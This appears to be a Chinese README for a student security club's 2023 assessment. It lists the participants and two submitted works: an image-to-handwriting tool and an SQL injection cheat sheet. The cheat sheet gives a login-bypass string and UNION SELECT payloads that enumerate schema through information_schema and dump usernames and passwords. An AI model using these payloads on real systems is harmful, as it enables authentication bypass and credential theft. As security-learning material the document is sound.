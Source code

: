 # 信安部2023考核

#### 参加人员：

- 黄美如
- 周齐家
- 郑明宇
- 李梦青



#### 作品提交：2个



##### sql注入（郑）：

~~~ mysql
//支持post注入的万能用户名和密码
1' or
or '1'='1

table_schema
information_schema

//确认显错位
and 1=2 select 1,2,3
//查询数据库
union select 1,2,database()
//查数据库中所有表名            
union select 1,2,table_name from information_schema.tables where table_schema='db02' limit 0,1
//查数据库中所有字段名
union select 1,2,column_name from information_schema.columns where table_schema='db02' and table_name='users' limit 0,1
//查一张表的信息
union select 1,username,password from users limit 0,1

~~~



##### 图片转文字（周）：

作用：图片文本（txt）格式保存+效果图（png格式）

效果图：



![效果图片](./图片转手写文字/运行结果.png)



##### 现场图片：

![实景图片](./实景照片.jpg)

